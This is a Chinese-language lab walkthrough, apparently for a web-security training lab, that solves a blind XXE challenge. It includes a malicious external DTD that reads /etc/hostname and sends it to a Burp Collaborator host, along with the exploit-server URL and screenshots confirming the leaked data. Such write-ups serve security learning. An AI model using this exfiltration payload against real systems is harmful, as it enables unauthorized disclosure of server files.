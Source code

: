**都不行，下面开始骚操作：**

在这里生成一个利用的链接：

![image-20221106195217455](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106195217455.png)



然后找到一个第三方的工具，这里实验环境下已经提供直接使用便可：

![image-20221106195034173](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106195034173.png)

下面构造攻击包内容，将刚刚生成的利用链接填入对应地方。payload如下：

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://4kpe99pbn750uswkjvf53gf33u9mxb.burpcollaborator.net?x=%file;'>">
%eval;
%exfil;
```

![image-20221106195500199](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106195500199.png)

接下来保存该url：我保存的如下：

```
https://exploit-0ab400d4049a60c4c04a1402018500d7.exploit-server.net/exploit
```

![image-20221106195536455](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106195536455.png)在repeater模块里构造payload，将发起请求看响应包跟先前的不太一样，检查dnslog是否有记录发现存在记录，其中http的记录里发现了目标 `hostname` 信息

![image-20221106200123728](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106200123728.png)



将该信息发送到后台，判断实验结果是否正确，得到结果是显然正确的。

![image-20221106200528775](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106200528775.png)

输入记录内容：

![image-20221106200610162](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106200610162.png)



可以看见：

![image-20221106200617490](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106200617490.png)

**成功通关！**

这一关的原理有点绕，要是不明白的师傅们可以在

[这里查看原理]: https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md	"点击"

。

## Lab: Exploiting blind XXE to retrieve data via error messages
